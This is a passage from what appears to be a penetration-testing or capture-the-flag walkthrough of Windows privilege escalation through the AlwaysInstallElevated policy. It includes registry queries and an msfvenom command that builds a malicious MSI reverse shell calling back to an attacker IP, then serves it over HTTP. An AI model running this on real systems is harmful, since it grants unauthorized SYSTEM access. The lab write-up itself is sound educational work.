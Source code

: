         #Query machine policy (system wide):
        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

        #Query user policy (is the key set for the user I are logged in with )
        reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

        ```

        -   {{< figure src="/ox-hugo/2024-12-24-080900_.png" >}}
            -   As I can see it's set globally as a machine policy, this is bad! As it means that any user can install anything with admin privileges. We can use this to elevate to System.


#### Primer: Key Differences in reg queries: {#primer-key-differences-in-reg-queries}

1.  **Registry Hive Scope**:
    -   `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`:
        -   Refers to `HKEY_LOCAL_MACHINE (HKLM)`, which applies settings at the **system-wide level**.
        -   Changes here affect **all users on the machine**.

    -   `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`:
        -   Refers to `HKEY_CURRENT_USER (HKCU)`, which applies settings at the **user-specific level**.
        -   Only affects the currently logged-in user.

2.  **Purpose**
    -   `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`:
        -   specifically queries the `AlwaysInstallElevated` value in the `HKEY_LOCAL_MACHINE` hive.
        -   Represents a system-wide policy that determines if MSI files can be installed with elevated privileges (Administrator rights).
            -   **Enabled (`1`)**: Allows all users to install MSI files with elevated privileges.
            -   **Disabled (`0` or absent)**: Prevents this behavior globally.

    -   `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`:
        -   Specifically queries the `AlwaysInstallElevated` value.
        -   Determines whether the user can install software with elevated privileges (Administrator rights).
            -   **Enabled (`1`)**: Allows installing MSI files with elevated privileges.
            -   **Disabled (`0` or absent)**: Prevents this behavior.


## 3. Privilege Escalation: {#3-dot-privilege-escalation}


### Privesc Method 1: Creating a malicious msi reverse shell with msfvenom: {#privesc-method-1-creating-a-malicious-msi-reverse-shell-with-msfvenom}

-   I use msfvenom to create a malicious `evil.msi` file that is a reverse shell
    -   `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.80 LPORT=8888 -a x64 --platform Windows -f msi -o evil.msi`
    -   {{< figure src="/ox-hugo/2024-12-24-081045_.png" >}}

-   I standup my python webserver.
    -   `python3 -m http.server 9000`
